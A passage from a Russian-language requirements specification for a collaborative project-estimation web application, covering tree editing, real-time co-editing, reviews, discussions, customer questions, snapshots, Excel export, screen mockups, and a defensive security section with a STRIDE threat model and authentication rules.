**FR-TREE-22.** Валидация O ≤ R ≤ P не мешает сохранить (черновик), но строка подсвечивается красным, лист не входит в суммы (BR-CALC-02).

**FR-TREE-23.** Кнопка «+» у строки: «Лист рядом», «Дочерний узел» (для листа — означает «Разбить», с подтверждением). Контекстное меню (правая кнопка или «⋯»): «Сменить тип», «Разбить на части», «Свернуть в лист», «Переместить в…» (диалог выбора узла в пределах ветки; модератору — в пределах проекта), «Вверх/вниз», «Дублировать», «История», «Удалить». Перетаскивание мышью СЛЕДУЕТ поддержать для изменения порядка внутри родителя.

**FR-TREE-24.** Удаление узла переносит его со всем поддеревом в корзину проекта. Подтверждение требуется, если у узла есть дети или открытые обсуждения. Корзина: модератор видит всё, эксперт — удалённое из своих веток; «Восстановить» возвращает на прежнее место (если родитель тоже удалён — восстанавливается вместе с ним). Корзина очищается при архивации проекта + 90 дней. [Допущение]

**FR-TREE-25.** Ctrl+Z нет. История листа (кнопка «История» или клик по значку времени): список «кто, когда, поле, было → стало»; у каждого значения кнопка «Вернуть это значение». **Почему нет Ctrl+Z:** при совместной работе непонятно, чью правку отменяет Ctrl+Z, а история с явным выбором значения однозначна.

#### Совместная работа

**FR-TREE-30.** Правки других участников появляются без перезагрузки за ≤ 1 секунду (NFR-PERF-04). Изменённая ячейка на 2 секунды подсвечивается, у строки на 10 секунд появляется метка с инициалами автора.

**FR-TREE-31.** Блокировка ячейки (мягкая): когда пользователь начинает ввод в ячейку, сервер выдаёт ему «захват» этой ячейки (узел + поле) на 30 секунд, продлеваемый, пока поле в фокусе. Другие видят у ячейки рамку цвета пользователя и его инициалы; их попытка ввести в эту ячейку показывает подсказку «Сейчас редактирует И. Иванов». Остальные ячейки той же строки свободны.

**FR-TREE-32.** Защита от потери данных при гонке: каждое изменение отправляется с номером версии узла, известной клиенту. Если сервер видит, что **это же поле** изменилось после указанной версии, правка отклоняется (409), клиент показывает «Значение изменил П. Петров: 16. Ваше: 18. [Оставить моё] [Принять]». Изменения разных полей одного узла не конфликтуют.



**FR-TREE-33.** Потеря соединения: при разрыве WebSocket показывается жёлтая полоса «Нет связи, правки не сохраняются», поля ввода становятся только для чтения. После восстановления клиент запрашивает изменения с последней известной версии проекта (`GET /projects/{id}/changes?since=`) и применяет их. **Почему не очередь офлайн-правок:** офлайн-правки при совместной работе почти всегда дают конфликты, которые пользователю трудно понять; честнее не дать вводить.

**FR-TREE-34.** Правка модератором листа чужой дисциплины: сохраняется сразу; в историю пишется автор-модератор; в ленту обсуждения листа добавляется событие; эксперты дисциплины получают счётчик «Изменения модератора» (не путать с вопросами); отметка «Проверено» снимается; статус ветки «готово» → «черновик» (BR-BR-02).

### 8.5. Ревью

**FR-REV-01.** Ревьюер дисциплины и модератор ставят «Проверено» листу или узлу (тогда отмечаются все листья поддерева). Отметка хранит автора и время.

**FR-REV-02.** Любая правка O/R/P, ×N, переноса листа снимает отметку с листа и с узлов-предков. Правка комментария — не снимает.

**FR-REV-03.** В статистике по каждой дисциплине: доля часов (E) с отметкой «Проверено».

---

## 9. Обсуждения, вопросы заказчику, уведомления

### 9.1. Комментарий листа и обсуждение — в чём разница

| | Комментарий | Обсуждение |
|---|---|---|
| Назначение | Описывает сам лист: ограничения, технологии, риски, допущения | Вопросы и переписка |
| Где | Ячейка в строке, виден всегда | Раскрывается под строкой |
| Сколько | Один на узел | Лента сообщений |
| Кто пишет | Эксперты дисциплины, модератор | Любой участник проекта |
| Куда попадает | По меткам — в списки статистики и в экспорт (допущения, риски) | В счётчики, в список вопросов заказчику |

### 9.2. Требования к обсуждениям

**FR-DISC-01.** Обсуждение есть у любого узла: листа, узла, ветки дисциплины, фазы, проекта целиком (у проекта — в шапке).

**FR-DISC-02.** Сообщение: обычный текст 1–4 000 символов, переводы строк, автоссылки на `http(s)://`. HTML и Markdown **не интерпретируются** (SEC-WEB-02).

**FR-DISC-03.** Флаг «нужен ответ» делает сообщение открытым вопросом. Адресат указывается через @ с автодополнением: `@Бэкенд` (все эксперты дисциплины), `@Иван Петров` (участник проекта), `@модератор` (все модераторы), `@заказчик`. Можно несколько адресатов. Если флаг стоит, а адресата нет: для узлов внутри ветки — эксперты этой дисциплины, для фазы и проекта — модераторы.

**FR-DISC-04.** В свёрнутом виде у строки значок 💬 со счётчиком сообщений; если есть открытый вопрос — значок оранжевый, если вопрос мне — с красной точкой. В раскрытом виде — последние 3 сообщения, кнопка «Показать всё (N)», поле ввода; Ctrl+Enter отправляет.

**FR-DISC-05.** Закрыть («Решено») могут автор вопроса, любой из адресатов, модератор. При закрытии предлагается «Добавить вывод в комментарий листа»: подставляется последнее сообщение, его можно править и выбрать метку. Закрытое обсуждение свёрнуто в одну строку «Решено: <начало вывода> · кто, когда».

**FR-DISC-06.** Автор правит своё сообщение, пока на него никто не ответил (метка «изменено»). Удалить нельзя. «Отозвать» скрывает текст, оставляет пометку «Сообщение отозвано автором»; модератор видит исходный текст в истории. **Почему нельзя удалять:** ответы других потеряют смысл, а для разбора спорных оценок нужна полная переписка.

**FR-DISC-07.** События в ленте: при изменении O/R/P, ×N, комментария, типа, переноса узла, у которого есть хотя бы одно сообщение, в ленту автоматически добавляется серая строка: «И. Иванов изменил O/R/P 8–12–20 → 12–16–30 · 03.11 14:20». Если сообщений нет — событие пишется только в историю (чтобы не создавать ленты из одних событий).

**FR-DISC-08.** Все участники проекта видят все обсуждения проекта. Личных переписок нет. [Допущение, подтвердить — Q-03]

### 9.3. Вопросы заказчику

**FR-CQ-01.** Сообщение с адресатом `@заказчик` автоматически получает флаг «нужен ответ» и статус «новый», попадает в список «Вопросы заказчику».

**FR-CQ-02.** Список (в статистике): номер вопроса (сквозной в проекте: В-001, В-002…), текст, фаза → дисциплина → путь узла, автор, дата, статус, дата ответа. Фильтры по статусу, дисциплине. Пресейл и модератор выбирают вопросы и нажимают «Выгрузить в Excel» или «Выгрузить в Word»; выгруженные «новые» становятся «отправлен», с датой отправки.

**FR-CQ-03.** Ответ заказчика вносится в то же обсуждение кнопкой «Внести ответ заказчика» (пресейл или модератор): сообщение помечается «Ответ заказчика · внёс П. Сидоров», статус → «отвечен», автор вопроса получает уведомление.

**FR-CQ-04.** Выгрузка в Word: шапка (проект, заказчик, дата), таблица «№, раздел, вопрос, ответ (пустая колонка)». Ничего о деньгах и внутренних обсуждениях в выгрузку не попадает.

### 9.4. Уведомления

**FR-NOTIF-01.** В приложении: счётчик в верхней полосе и на «Моих оценках»; выпадающий список «Мне» — вопросы мне, ответы на мои вопросы, изменения модератора в моих листьях, назначение в проект. Клик ведёт прямо к строке и раскрывает обсуждение.

**FR-NOTIF-02.** Почта: одно письмо в день (время по умолчанию 09:00, меняет суперадминистратор) — только если есть новые события с прошлого письма: «Вам 3 вопроса по 2 проектам», с ссылками на строки. Отдельные немедленные письма: назначение в проект, ссылка установки пароля, сброс пароля, вход с нового устройства [Допущение]. Пользователь может отключить ежедневную сводку в профиле; служебные письма отключить нельзя.

**FR-NOTIF-03.** Письма не содержат денег, текста оценок и полного текста сообщений — только количество и заголовки узлов со ссылками. **Почему:** почта выходит за периметр приложения (пересылка, мобильные клиенты), а в теле письма достаточно повода зайти.

---

## 10. Статистика, снимки, экспорт

### 10.1. Статистика

Отдельный экран, только чтение. Клик по любой строке открывает рабочий экран на этом узле.

| Блок | Содержимое | Деньги (модератор, пресейл) |
|---|---|---|
| Сетка готовности | Строки — фазы, столбцы — дисциплины. В ячейке: E, статус, дата последней правки, флажки (◆ крупный лист, ↔ широкая вилка σ/E > 30%, ? открытый вопрос, нет эксперта). Модератору — кнопка «Напомнить не начавшим» (письмо экспертам веток «не начато») | Строка «Стоимость» под сеткой |
| Итоги | По фазам и дисциплинам: E, σ, P80, доля | Стоимость по фазам и дисциплинам |
| Доли и соотношения | Доли дисциплин в проекте и в каждой фазе; контрольные соотношения с отметкой «в норме / ниже / выше» | — |
| Объёмы по типам | Число единиц каждого типа с учётом ×N: «13 экранов, 1 интеграция, 30 тест-кейсов» | — |
| Кандидаты на декомпозицию | Топ-10 крупных листьев (по E) и широких вилок (по σ/E) | — |
| Списки по меткам | Допущения и ограничения (черновик для КП), риски, технологии — с путём узла | — |
| Обсуждения | Все открытые и закрытые, фильтры по адресату, статусу, дисциплине | — |
| Вопросы заказчику | Раздел 9.3 | — |
| Проверено | Доля проверенных часов по дисциплинам | — |
| Динамика | График итога E и P80 по дням, отметки снимков | Итог в валюте |

### 10.2. Снимки

**FR-SNAP-01.** Модератор создаёт снимок: название (обязательно, до 100 символов, например «v1 — КП отправлено»), описание. Снимок хранит полное дерево, расчётные значения, настройки проекта (процент УП, уровень, фазы), ставки, валюту, курс, денормализованные названия справочников, комментарии (без обсуждений), список открытых вопросов заказчику на момент снимка.

**FR-SNAP-02.** Снимок неизменяем: правка и удаление невозможны (только модератор может пометить снимок «ошибочный», он остаётся в списке зачёркнутым).

**FR-SNAP-03.** Сравнение «текущее ↔ снимок» или «снимок ↔ снимок»: таблица изменённых узлов (добавлен / удалён / изменён / перемещён) с ΔE по узлу и по итогам, автор последнего изменения. Эксперты видят разницу только в часах, модератор и пресейл — и в деньгах (включая влияние изменения курса и ставок отдельной строкой).

**FR-SNAP-04.** Узлы сопоставляются по внутреннему идентификатору узла (а не по названию), поэтому переименование показывается как «изменён», а не «удалён + добавлен».

### 10.3. Экспорт

**FR-EXP-01.** Excel «Часы» (все участники): лист «Оценка» — дерево с отступами в колонке названия и колонкой уровня (для группировки Excel), тип, ×N, O, R, P, E, σ, комментарий, метка, статус ветки, «Проверено»; итоговые строки по фазам, УП, итог E и P80; лист «Допущения и риски»; лист «Параметры» (уровень, процент УП, дата выгрузки, кто выгрузил, версия или название снимка).

**FR-EXP-02.** Excel «С деньгами» (модератор, пресейл): то же плюс колонки «Ставка», «Стоимость, ₽», «Стоимость, валюта КП», лист «Стоимость по дисциплинам», курс и валюта в «Параметрах».

**FR-EXP-03.** Экспорт можно сделать из текущего состояния или из любого снимка. Имя файла: `<Название проекта>_<снимок или дата>_<часы|деньги>.xlsx` (недопустимые символы заменяются на `_`).

**FR-EXP-04.** Значения в ячейках Excel пишутся как значения, а не формулы. Текстовые ячейки, начинающиеся с `=`, `+`, `-`, `@`, табуляции, получают префикс `'` (SEC-WEB-06).

**FR-EXP-05.** Экспорт формируется фоновой задачей; если дольше 3 секунд — пользователь видит «Готовим файл…», файл скачивается, когда готов. Файл хранится 24 часа и доступен только пользователю, который его запросил.

---

## 11. Макеты экранов

### Как читать макеты

- Макет показывает **состав, расположение и поведение** элементов экрана. Окончательные цвета, шрифты и иконки определит дизайнер (Q-10), но расположение и набор элементов — требование.
- Синие квадраты с цифрами (выноски) на картинке не часть интерфейса. Под каждой картинкой — таблица с расшифровкой выносок и ссылками на требования.
- Все цифры на макетах взяты из сквозного примера раздела 6.5 (проект «Портал дилеров»), поэтому их можно сверять с расчётами. Исключение оговорено у макета сравнения со снимком.
- Цветовые обозначения общие для всех экранов:

| Цвет на макете | Значение |
|---|---|
| Зелёный | Готово, проверено, ответ заказчика |
| Жёлто-оранжевый | Черновик, открытый вопрос, предупреждение |
| Красный | Ошибка, пустая или неверная оценка, вопрос лично мне |
| Фиолетовый с замком 🔒 | Деньги. Этот элемент видят **только модератор и пресейл проекта** |
| Оранжевая рамка с инициалами | Ячейку сейчас редактирует другой пользователь |
| Серая штриховка | Ветка «не нужно» |

Исходники макетов (HTML) лежат рядом со спецификацией в папке `mockups-src/`, картинки — в `img/`.

### 11.1. Вход и второй фактор


На картинке три состояния одного экрана. Какое из них видит пользователь, зависит от способа аутентификации, который выбрал суперадминистратор.

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Поле «Логин» | В режиме AD — логин Windows (`sAMAccountName`) или UPN, по настройке. Регистр не важен. Фокус ставится в это поле при открытии страницы |
| 2 | Кнопка «Войти» | Неактивна, пока оба поля пустые. Enter в поле пароля = нажатие. Во время проверки на кнопке индикатор, повторное нажатие игнорируется |
| 3 | Подсказка режима AD | Видна только в режиме AD. Ссылки «Забыли пароль?» в этом режиме нет: пароль меняется средствами компании |
| 4 | Сообщение об ошибке | Всегда одинаковое для неверного логина и неверного пароля (FR-LOCK-01). При блокировке — «Учётная запись временно заблокирована, попробуйте через N минут». При недоступности AD — «Сервис аутентификации временно недоступен». Поле пароля после ошибки очищается |
| 5 | «Забыли пароль?» | Только в режиме «Приложение» (FR-AUTH-LOC-03) |
| 6 | Поле кода TOTP | 6 клеток, ввод цифр с автопереходом, вставка из буфера целиком. После шестой цифры код отправляется сам, без нажатия кнопки |
| 7 | «Использовать резервный код» | Заменяет клетки одним полем для 8-значного резервного кода. «Назад» возвращает на шаг логина (временный токен шага TOTP аннулируется) |

### 11.2. Админка суперадминистратора: способ аутентификации


| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Меню раздела «Система» | Видно только суперадминистратору. Пункты: состояние системы (FR-SA-07), аутентификация, безопасность (политики паролей, сессий, блокировок, 2FA, сети), почта, администраторы, журнал аудита |
| 2 | Выбор способа входа | Один режим на всё приложение. Под переключателем постоянная подсказка о том, что суперадминистраторы входят локально (FR-SA-03). Переключение режима запускает сценарий FR-AUTH-SW-01: сначала отчёт «сопоставлено / не найдено», потом подтверждение |
| 3 | Подключение к AD | Нешифрованного варианта нет в списке (FR-AUTH-AD-02). Пароль сервисной учётки после сохранения не показывается, только «изменить». «Проверить подключение» выполняет bind и поиск, результат с временем ответа пишется рядом |
| 4 | Доступ и роли | Группа доступа обязательна. Если включено «Назначать роли по группам AD», ручная выдача ролей «Администратор», «Модератор», «Пресейл» для AD-пользователей в админке становится недоступной (FR-AUTH-AD-07). Роль суперадминистратора здесь не назначается |
| 5 | Тестовый вход | Показывает найденные ФИО, email, состояние учётки, группы и итоговую роль. Пароль не сохраняется и не попадает в логи |
| 6 | «Сохранить…» | Неактивна, пока после последнего изменения параметров не прошли обе проверки (3 и 5). Открывает окно подтверждения с паролем и кодом TOTP (step-up, SEC-AUTH-05) |

### 11.3. «Мои оценки» (главная)


На макете вошёл И. Иванов: в одном проекте он эксперт, в другом модератор (у него есть системная роль «Модератор»).

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Поиск и фильтры | Поиск по названию и заказчику с первых 2 символов. Фильтр статуса по умолчанию «все, кроме архива». Выбранные фильтры запоминаются для пользователя |
| 2 | «+ Создать проект» | Только у пользователей с системной ролью «Модератор» (FR-HOME-03). У остальных кнопки нет совсем |
| 3 | «Мой прогресс» | Для эксперта: сколько веток его дисциплин в статусе «готово» или «не нужно» из всех его веток. Для модератора: то же по всем веткам проекта. Для проекта в «Подготовке» вместо полосы — «команда не назначена», если экспертов нет |
| 4 | Дедлайн | Красный с ⚠, если до дедлайна осталось 2 рабочих дня или меньше, а мои ветки не готовы |
| 5 | «Мне» | Число непрочитанных событий для меня в проекте: вопросы мне, ответы на мои вопросы, изменения модератора в моих листьях. Сортировка списка: сначала проекты с ненулевым «Мне», затем по дедлайну |
| 6 | Колокольчик | Общий счётчик по всем проектам. Клик раскрывает список «Мне» (справа на картинке). Клик по пункту открывает рабочий экран прямо на нужной строке с раскрытым обсуждением. Типы пунктов подписаны цветной меткой |

Колонка «Итог, ч» показывает E проекта. Модератор и пресейл видят рядом сумму в валюте КП (FR-HOME-04), на макете её нет, потому что Иванов смотрит как эксперт.

### 11.4. Рабочий экран

Главный экран приложения. На нём работают все роли. Ниже — вид эксперта Бэкенда, а под ним полоса, которая у модератора выглядит иначе.


| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Название и параметры проекта | Название, заказчик, уровень детализации, дедлайн. Стрелка «←» ведёт на «Мои оценки» |
| 2 | Итог проекта | E и P80 по всему проекту, включая УП (раздел 6). Всегда считается по всему дереву, даже когда включены фильтры. Обновляется на лету |
| 3 | «Открыто» | «2 мне / 5»: открытых вопросов мне / всего открытых в проекте. Клик — выпадающий список вопросов с переходом к строке. Рядом счётчик рисков: число листьев с меткой «Риск» |
| 4 | Кто сейчас в проекте | Аватары пользователей, у которых проект открыт. Цвет аватара совпадает с цветом рамки занятой ячейки (см. 8) |
| 5 | Поиск и фильтры | Чипы показывают число строк, которые попадут под фильтр. «Мои ветки» включён при первом входе эксперта, у модератора — выключен. Подробно — FR-TREE-12 |
| 6 | Предупреждение о неучтённых листьях | Появляется, если в проекте есть пустые или неверные листья. Клик включает фильтр «Пустые» (BR-CALC-02) |
| 7 | Строка ветки дисциплины | Название, статус ветки (FR-BR), кнопка «Отметить «Готово»». Кнопка неактивна, если в ветке есть пустые или неверные листья; подсказка объясняет почему. Комментарий ветки — общий для дисциплины (например, стек). Строка прилипает к верху при прокрутке её листьев |
| 8 | Правка коллеги в реальном времени | П. Петров сейчас вводит значение R: ячейка обведена его цветом с инициалами «ПП», ввести в неё другой пользователь не может (FR-TREE-31). Строка подсвечена жёлтым 2 секунды после изменения, метка «ПП изменил» держится 10 секунд (FR-TREE-30) |
| 9 | Пустой лист | Красноватые пустые ячейки O/R/P, в Σ E надпись «не учтён». Лист не входит в суммы, ветку нельзя отметить «Готово» |
| 10 | Неверная оценка | O > R: значения красные, в Σ E вместо суммы — «O > R». Сохранить можно (черновик), но в суммы лист не входит (FR-TREE-22). Синяя рамка у R — ячейка, в которой сейчас курсор у самого пользователя |
| 11 | Множитель | ×1 показан бледно. Любое другое значение — выделенной плашкой, чтобы было видно, где цифра умножена. O/R/P вводятся на одну штуку |
| 12 | Отметка «Проверено» | Ставит ревьюер дисциплины или модератор. Снимается при изменении O/R/P, ×N или переноса (FR-REV-02). Пустая клетка — не проверено |
| 13 | Значок обсуждения | 💬 с числом сообщений. Оранжевый — есть открытый вопрос. Красная точка — вопрос адресован мне. Клик раскрывает обсуждение под строкой |
| 14 | Обсуждение под строкой | Раскрывается под листом, ничего не перекрывает. Шапка: статус вопроса и адресат. Видны последние 3 записи, «Показать всё (5)» раскрывает остальные. Серая строка «⟲ изменено…» — автоматическое событие (FR-DISC-07). Зелёная плашка — ответ заказчика, внесённый пресейлом (FR-CQ-03). Внизу поле ответа, флаг «нужен ответ», «Отправить» (Ctrl+Enter) и «Решено ▾» (с пунктом «Добавить вывод в комментарий») |
| 15 | Управление проектом | Последняя строка дерева, без листьев: процент и обоснование из настроек проекта, E = 18% от работ. Клик по проценту у модератора открывает настройки проекта, у остальных — подсказку с формулой |
| 16 | Деньги в верхней полосе | Только у модератора и пресейла: итог и P80 в валюте КП. Если не заданы ставки дисциплин, у которых есть часы, вместо суммы «не заданы ставки: …» |
| 17 | «Снимок» | Только у модератора (FR-SNAP-01). Открывает окно с полями «Название» и «Описание» |

Что ещё важно на этом экране:

- **Чужие ветки** (на макете «Фронтенд») выглядят так же, но ячейки не редактируются: при клике курсор не появляется, при наведении подсказка «Ветка дисциплины Фронтенд, редактируют её эксперты». Обсуждения в чужих ветках доступны всем.
- **Ввод с клавиатуры** внутри строки: Tab переходит O → R → P → Комментарий → O следующего листа; Enter сохраняет; Esc отменяет ввод. Быстрый ввод вилки строкой `8-12-20` в поле O (FR-TREE-21).
- **Пресейл** видит экран модератора (с деньгами), но ничего, кроме обсуждений, не редактирует.

### 11.5. Меню строки и история листа


На левой половине для наглядности одновременно раскрыты оба меню. В интерфейсе в каждый момент открыто только одно.

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | «+» | Появляется при наведении на строку и на строке с фокусом. «Лист рядом» создаёт лист сразу под текущим, «Дочерний узел» у листа означает «разбить» (BR-TREE-02, с подтверждением). Тип нового узла предлагается по профилю дисциплины и подписан «профиль» (FR-TREE-01). После создания курсор сразу в поле названия |
| 2 | «⋯» (или правая кнопка мыши) | Операции с узлом. Недоступные пункты показаны бледно с причиной («нет детей»). «Удалить в корзину» спрашивает подтверждение, если у узла есть дети или обсуждения (FR-TREE-24). «Скопировать ветку из проекта…» — FR-PRJ-03 |
| 3 | История листа | Все изменения листа: кто, когда, было → стало. «Вернуть 30–40–60» записывает это значение как новую правку: она попадает в историю, в ленту обсуждения и сбрасывает «Проверено», как любая правка (FR-TREE-25) |

### 11.6. Настройки проекта


Экран открывает модератор кнопкой «⚙ Настройки». Эксперты видят его только для чтения и **без блока «Деньги»** (блока нет в разметке страницы и в ответе API).

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Вкладки | «Основное и команда», «Снимки» (список снимков, FR-SNAP), «Корзина» (удалённые узлы с восстановлением, число — сколько записей), «Журнал проекта» (все изменения настроек и команды) |
| 2 | Основное | Поля — FR-PRJ-01. Выключение фазы, в которой есть оценки, требует подтверждения: ветки уходят в корзину. Смена уровня детализации сразу меняет подсказки «крупный лист» |
| 3 | Управление проектом | Процент и обоснование. Обоснование попадает в список допущений и в экспорт |
| 4 | «+ Добавить дисциплину» | Добавляет строку дисциплины в таблицу команды. Ветки этой дисциплины во всех включённых фазах появляются, когда назначен первый эксперт (FR-PRJ-04) |
| 5 | Эксперт-ревьюер | Подсвеченная плашка со звёздочкой. Ревьюера назначает модератор кликом по эксперту → «Сделать ревьюером». Ревьюеров в дисциплине может быть несколько |
| 6 | «Нет эксперта» | Дисциплина добавлена, но никто не назначен. Её ветки видны в дереве с пометкой «нет эксперта», статус «не начато» |
| 7 | Блок «Деньги» | Только модератор (правка) и пресейл (просмотр). Фиолетовая рамка и замок напоминают, что это видно не всем |
| 8 | Валюта и курс | Для RUB поле курса скрыто. Курс вводится вручную, 4 знака после запятой (BR-MONEY-03) |
| 9 | Ставки | По каждой дисциплине проекта и по УП, ₽ за час, целые. Пустая ставка подсвечена. Если у дисциплины с пустой ставкой ещё нет часов, итог в деньгах считается; если часы появились — вместо итога «не заданы ставки: …» (BR-MONEY-02) |

### 11.7. Статистика: сетка готовности


Вид модератора. Эксперт видит тот же экран без строки «Стоимость» и без денежных строк в «Итоге проекта».

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Вкладки статистики | Состав вкладок — раздел 10.1. На вкладке «Вопросы заказчику» счётчик новых вопросов |
| 2 | Ячейка «готово» | Статус, E ветки, кто и когда правил последним, флажки. «◆ крупный лист»: в ветке есть лист больше порога уровня детализации (в примере 83,3 ч при пороге 80 ч для «Средне») |
| 3 | Ячейка «черновик» | Флажки: «? 1 вопрос» — открытые вопросы в ветке, «2 не учтены» — пустые или неверные листья |
| 4 | Ячейка «не начато» | Пунктирная рамка. «Нет эксперта» — красный флажок, проблема для модератора |
| 5 | Ячейка «не нужно» | Штриховка. Ставит модератор (FR-BR). В расчёт не входит |
| 6 | Строка «Стоимость» | Только модератор и пресейл. E ветки дисциплины × ставка, по всем фазам |
| 7 | «Напомнить не начавшим» | Письмо экспертам веток «не начато». Если таких экспертов нет, кнопка неактивна и рядом объяснение. Не чаще одного раза в сутки на проект |
| 8 | Итог проекта | Работы, УП, итог E и P80; у модератора и пресейла — в рублях и в валюте КП. Цифры совпадают с примером 6.5 |
| 9 | Контрольные соотношения | Шкала: зелёная пунктирная зона — норма, полоса — факт. Цвет факта: зелёный в норме, оранжевый вне нормы. Только предупреждение, ничего не блокирует (раздел 6.6) |

Клик по любой ячейке сетки открывает рабочий экран, раскрытый на этой ветке.

### 11.8. Сравнение со снимком


Цифры «было» на этом макете условные: снимок v1 сделан до изменений, перечисленных в таблице. Цифры «стало» совпадают с примером 6.5.

| № | Элемент | Поведение и правила |
|---|---|---|
| 1 | Что с чем сравниваем | Слева «Текущее состояние» или любой снимок, справа любой снимок. Снимки, помеченные «ошибочный», в списке зачёркнуты, но выбрать их можно |
| 2 | Сводка изменений | Итог E и P80 «было → стало» и разница. У модератора и пресейла ещё две карточки с деньгами: разница в рублях и в валюте КП, где отдельно показан вклад изменения курса (в примере курс вырос с 90 до 92,5 ₽, поэтому в долларах итог вырос меньше, чем в рублях) |
| 3 | Фильтры по виду изменения | Добавлен / удалён / изменён / параметры проекта. Числа — сколько строк каждого вида |
| 4 | Изменение параметра | Ставки, курс, процент УП, включённые фазы. Строки с деньгами видят только модератор и пресейл |

Таблица сопоставляет узлы по внутреннему идентификатору (FR-SNAP-04). ΔE считается по листьям, а изменение УП показывается одной строкой-пояснением под таблицей.

### 11.9. Требования к интерфейсу в целом

**FR-UI-01.** Язык интерфейса — русский. Все тексты — в файлах локализации (i18n), даже если второго языка пока нет.

**FR-UI-02.** Формат чисел — русский: пробел как разделитель тысяч, запятая как десятичный. Даты — ДД.ММ.ГГГГ, время — ЧЧ:ММ по часовому поясу пользователя (по умолчанию — приложения).

**FR-UI-03.** Минимальная ширина 1366 px. На более узких экранах — горизонтальная прокрутка дерева, верхняя полоса сжимается.

**FR-UI-04.** Доступность: контраст текста ≥ 4,5:1, все действия доступны с клавиатуры, у иконок есть `aria-label`, цвет не единственный носитель смысла (статусы дублируются символом).

**FR-UI-05.** Пустые состояния: каждый список и ветка без данных показывает подсказку, что делать («В ветке пока ничего нет. Нажмите + чтобы добавить модуль, экран или работу»).

---

## 12. Информационная безопасность

### 12.1. Что защищаем

| Актив | Почему ценен | Класс |
|---|---|---|
| Ставки, стоимость, итог в валюте | Коммерческая тайна: раскрытие ставок конкуренту или заказчику ослабляет позицию на переговорах | Высокий |
| Оценки и допущения проектов | Конфиденциальная информация заказчиков (часто под NDA) и ноу-хау компании | Высокий |
| Учётные данные, сессии, секреты TOTP, пароль сервисной учётки AD | Компрометация даёт доступ ко всему остальному; пароль сервисной учётки — к AD | Критический |
| Персональные данные: ФИО, логин, email, IP в журналах | 152-ФЗ | Средний |
| Журнал аудита | Доказательная база при инцидентах | Высокий (целостность) |

### 12.2. Модель угроз (STRIDE, кратко)

| Угроза | Пример для приложения | Мера (требование) |
|---|---|---|
| **S**poofing — подмена личности | Подбор пароля; фишинг пароля суперадминистратора; кража cookie | Блокировки и rate limit (FR-LOCK-*), TOTP для админов (FR-SA-04), HttpOnly/Secure cookie, CSP (SEC-WEB-03) |
| **T**ampering — подмена данных | Эксперт через API правит ветку чужой дисциплины; подмена значений в WebSocket | Серверная проверка прав на каждое действие (SEC-AUTHZ-01), валидация на сервере, версии узлов |
| **R**epudiation — отказ от действий | «Я не менял эту цифру» | История с автором на каждую правку, неизменяемый журнал аудита (SEC-AUD-*) |
| **I**nformation disclosure — утечка | Эксперт видит ставки в ответе API; IDOR — перебор `project_id`; деньги в письме | Фильтрация полей на сервере (SEC-AUTHZ-04), проверка членства в проекте, письма без данных (FR-NOTIF-03), 404 вместо 403 на чужие объекты |
| **D**enial of service | Массовые запросы, гигантское дерево, большой импорт | Rate limit, лимиты размеров (BR-TREE-05/06, NFR-LIM-*), таймауты |
| **E**levation of privilege | Администратор выдаёт себе роль суперадминистратора; эксперт делает себя модератором | Роли меняются только ролями выше, step-up для критичных действий, суперадминистратор не выдаётся через AD |

### 12.3. Аутентификация

**SEC-AUTH-01.** Хэширование локальных паролей — Argon2id (библиотека `argon2-cffi`), параметры не ниже: память 64 МиБ, итераций 3, параллелизм 1–4; параметры хранятся в строке хэша, при входе с устаревшими параметрами хэш пересчитывается. bcrypt/MD5/SHA-* без соли запрещены.

**SEC-AUTH-02.** Сравнение секретов (токены сброса, коды) — только функциями постоянного времени (`hmac.compare_digest`).

**SEC-AUTH-03.** Токены сброса и активации: 256 бит из `secrets`, в БД хранится только SHA-256 токена, одноразовые, со сроком действия.

**SEC-AUTH-04.** Пароли, токены, коды TOTP, cookie сессий **НЕ ДОЛЖНЫ** попадать в журналы приложения, журналы веб-сервера, сообщения об ошибках, трассировки (настроены фильтры логгера по именам полей `password`, `token`, `secret`, `code`, `cookie`, `authorization`).

**SEC-AUTH-05.** Step-up (повторный ввод пароля и TOTP, действует 5 минут) требуется для: смены способа аутентификации и параметров AD, создания и разжалования суперадминистратора и администратора, изменения политик безопасности, выгрузки журнала аудита, сброса 2FA другому пользователю.

**SEC-AUTH-06.** Вход с нового устройства (новая пара «браузер + подсеть /24») для администраторов и суперадминистраторов порождает письмо-уведомление. [Допущение]

### 12.4. Авторизация

**SEC-AUTHZ-01.** Проверка прав выполняется **на сервере** на каждый HTTP-запрос и каждое входящее WebSocket-сообщение. Скрытие кнопок на клиенте — только удобство, не мера безопасности.

